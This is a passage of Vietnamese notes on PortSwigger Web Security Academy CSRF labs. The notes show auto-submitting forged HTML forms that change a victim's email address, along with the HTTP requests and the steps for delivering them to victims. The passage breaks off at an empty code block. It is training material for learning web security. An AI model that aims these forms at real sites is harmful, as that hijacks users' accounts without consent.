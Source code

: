 ```html
    <body>
        <form action="https://0a9400fc04dbc0a680c603b800f100c8.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="evil&#64;gmail&#46;com" />
        <input type="submit" value="Submit request" />
        </form>
        <script>
        history.pushState('', '', '/');
        document.forms[0].submit();
        </script>
    </body>
    </html>
```
- Đến **exploit server**
- Dán mã khai thác vào body 
- Deliver to victim

### Lab: CSRF where token validation depends on request method
#### Analyis
- Đăng nhập với tài khoản được cấp
- Update email, gửi request update email tới **repeater**
```http
POST /my-account/change-email HTTP/2
Host: 0a9400fc04dbc0a680c603b800f100c8.web-security-academy.net
...
email=c%40gmail.com&csrf=abcd
```
- Thử gửi không kèm **csrf** nhận được thông báo `"Missing parameter 'csrf'"`
- Ý tưởng: Thay đổi **POST** sang **GET**, gửi không đính kèm **csrf**

#### Exploit
- Chuột phải > Change request method 
- Gửi lại request không **kèm csrf** -> thành công
- Tạo mã khai thác CSRF, và thay đổi email 
```html
    <form action="https://0ace008a036892158105c2af00eb0072.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="abc@gmail.com">
    </form>
    <script>
            document.forms[0].submit();
    </script>
```
- Đến **exploit server**
- Dán mã khai thác vào body 
- Deliver to victim

> Lỗi do cấu hình xử lý method

### Validation of CSRF token depends on token being present
- Đăng nhập với tài khoản được cấp
- Update email, gửi request update email tới **repeater**
```http
POST /my-account/change-email HTTP/2
Host: 0a9400fc04dbc0a680c603b800f100c8.web-security-academy.net
...
email=c%40gmail.com&csrf=abcd
```
- Thử gửi không kèm **csrf** -> Thành công 
- Một số ứng dụng chỉ kiểm tra tính hợp lệ của `CSRF token` nếu tham số `csrf` tồn tại trong request.
- Tạo mã khai thác CSRF, thay đổi email, bỏ `csrf token` khỏi request
```html
```